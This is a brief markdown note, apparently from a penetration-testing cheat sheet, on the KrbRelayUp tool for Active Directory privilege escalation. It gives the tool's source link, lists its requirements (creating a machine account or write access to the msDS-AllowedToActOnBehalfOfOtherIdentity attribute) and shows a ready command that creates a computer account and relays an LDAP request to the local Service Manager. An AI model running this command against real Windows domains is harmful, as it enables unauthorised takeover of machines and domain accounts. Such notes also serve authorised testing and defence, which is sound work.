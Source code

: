 ### Source
https://github.com/Dec0ne/KrbRelayUp

### Requirements
```
- New machine account creation
- Or
- Erite access to msDS-AllowedToActOnBehalfOfOtherIdentity attribute
```

### Create new maschine account, relay ldap request to local Service Manager 
```
.\KrbRelayUp relay -Domain <domain> -CreateNewComputerAccount -ComputerName <name> -ComputerPassword <password>
```

